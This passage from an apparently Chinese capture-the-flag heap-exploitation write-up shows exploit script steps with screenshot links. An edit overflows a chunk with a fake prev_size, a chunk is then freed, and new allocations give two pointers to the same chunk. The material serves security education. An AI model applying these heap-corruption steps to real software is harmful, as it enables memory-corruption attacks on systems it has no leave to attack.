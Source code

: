```plain
edit(5,0x418,'a'*0x410+p64(0x1880))
```

[![](assets/1701606615-f9e8089794ca0d5975c84e199502393d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213629-fb93fe88-83bb-1.png)  
然后直接free

```plain
delete(6)
```

[![](assets/1701606615-159a8ba3e258803490a7d56c5be3b6a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213642-02e37af6-83bc-1.png)

然后直接申请一定0x408大小的chunk，造成两个指针指向同一个chunk

```plain
add(0x408,'cccc')
add(0x488,'cccc')
add(0x488,'cccc')
```

[![](assets/1701606615-c99a3827d710869791e694da49bae939.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213701-0eb46c0a-83bc-1.png)  